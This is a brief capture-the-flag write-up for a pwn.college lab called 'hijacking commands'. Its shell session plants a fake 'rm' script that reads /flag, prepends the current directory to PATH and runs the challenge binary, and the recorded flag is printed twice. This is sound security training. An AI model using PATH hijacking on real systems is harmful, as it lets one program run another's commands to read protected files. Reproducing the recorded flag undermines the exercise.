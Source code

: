 # Challenge Name
hijacking commands

## My solve
**Flag:** `pwn.college{U5EB2aEVnfD7GpXkkcys6ZtAArV.QX3cjM1wyM3EzNzEzW}`

```bash
Connected!
hacker@path~hijacking-commands:~$ echo 'cat /flag' > rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ PATH=.:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{U5EB2aEVnfD7GpXkkcys6ZtAArV.QX3cjM1wyM3EzNzEzW}
```

## Incorrect tangents I went on
none

## What I learned
this challenge tested more of my knowledge on PATH.

## References 
None
